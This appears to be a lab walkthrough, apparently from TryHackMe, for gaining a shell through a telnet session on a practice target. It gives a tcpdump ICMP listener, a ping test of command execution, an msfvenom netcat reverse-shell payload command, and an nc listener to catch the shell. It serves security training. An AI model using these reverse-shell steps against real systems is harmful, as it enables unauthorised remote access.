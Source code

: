 # 🔎 TCP dump

Start a tcpdump listener on your local machine.\
**If using your own machine with the OpenVPN connection, use:**

• `sudo tcpdump ip proto \\icmp -i tun0`

**If using the AttackBox, use:**\
◇ `sudo tcpdump ip proto \\icmp -i ens5`

This starts a tcpdump listener, specifically listening for ICMP traffic, which pings operate on.

Now, use the command **"ping \[local THM ip] -c 1"** through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)

Great! This means that we are able to execute system commands AND that we are able to reach our local machine. Now let's have some fun!

We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax:



```bash
msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R
```

\-p = payload\
lhost = our local host IP address (this is **your**┬ámachine's IP address)\
lport = the port to listen on (this is the port on **your** machine)\
R = export the payload in raw format

What word does the generated payload start with?

Perfect. We're nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using:\
**"nc -lvp \[listening port]"**\
What would the command look like for the listening port we selected in our payload?

Great! Now that's running, we need to copy and paste our msfvenom payload into the telnet session and run it as a command. Hopefully- this will give us a shell on the target machine!
